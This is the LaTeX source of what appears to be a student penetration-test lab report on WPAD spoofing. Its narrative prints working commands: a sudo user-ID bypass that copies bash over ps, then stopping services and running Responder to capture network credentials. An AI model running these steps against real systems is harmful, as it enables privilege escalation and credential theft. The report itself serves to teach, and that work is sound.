%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test Report Title}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}

  \subsection{Finding: \emph{WPAD Spoofing for Credentials}}
  
	\subsubsection*{Severity Rating}
		\cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
  		Here you provide a brief description of the nature of the vulnerability
  		including where the vulnerability is present (what machine and
  		what service).
  		
  	\subsubsection*{Confirmation method}
  	
		This section contains the information necessary for the
		client to verify that the vulnerability still exists.
		(Note: inability to confirm that the vulnerability
		does not exist using this method does not
		guarantee that the vulnerability has been addressed
		or mitigated.)
		
		The best confirmation method sections contain a few commands
		to execute. The vulnerability is confirmed by comparing
		the result to the expected result on a vulnerable
		host/network. The confirmation method should be simple
		and is usually \emph{not} exactly the same as what you
		did to discover and exploit the vulnerability.
		This is something the client's admins, with full
		highest privilege access can do to confirm the
		vulnerability is present.
		
    \subsubsection*{Mitigation or Resolution Strategy}
    
    	This is where you describe how to address the problem.
    	Can it be completely solved or can you, at least, reduce the
    	likelihood that the vulnerability can be exploited?
		



\section{Attack Narrative}

    \subsection{Initial Checks}
    Before we used responder, it was important to first use tcpdump to give some clues
    as to whether responder would work at all. To begin, we connected to devbox as usual
    and then used the previously found exploit and changed the command that was running ps
    to bash as follows.
   \begin{verbatim}
cp /usr/bin/bash /usr/bin/ps
sudo -u#-1 ps   
   \end{verbatim}
    Once we had access, we can then scp over the ssl-extras directory and use the tcpdump as follows:
\begin{verbatim}
proxychains scp -r sslstrip-extras l.strauss@devbox.artstailor.com:
proxychains scp -r /usr/share/responder l.struass@devbox.artstailor.com:
sudo ./tcpdump -i ens32 -w ~/capture.pcap -Z l.strauss
\end{verbatim}
    After examining the capture.pcap file using wireshark, the following observation was made\\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex100/tcpdump_1}\\
    Which signified that spoofing wpad might bear fruit as expected/

    \subsection{Responder}
    Once we know that the attack might work, we can then cd over to the responder directory. Using
    the Trelis 2018 blog about responder as a guide for what flags to use, the following command was
    run
\begin{verbatim}
sudo python3 Responder.py -I ens32 -wFb
\end{verbatim}
    which yielded the following error\\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex100/responder_error}\\
    Examining the error, we can see we might need to shut down the services running on these ports.
    We can use the following command to see what services to shutdown
\begin{verbatim}
sudo netstat -tnlp | grep 80
sudo netstat -tnlp | grep 25
sudo netstat -tnlp | grep 53
\end{verbatim}

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex100/netstat}\\
    We can now stop these commands using sudo service service-name stop as follows \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex100/stopping_services}\\
    Running responder now yields the following censored result \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex100/responder_censored}\\
    This password also doubles as a Key, but for the safety of the client, the key will remain
    censored.

    \subsection{MITRE ATT{\&}CK Framework TTPs}
    
	\subsubsection*{}
	\ttp(TA0043, Reconnaissance, T1593, Search Open Websites/Domains, .002, Search Engine)
    
\end{document} 
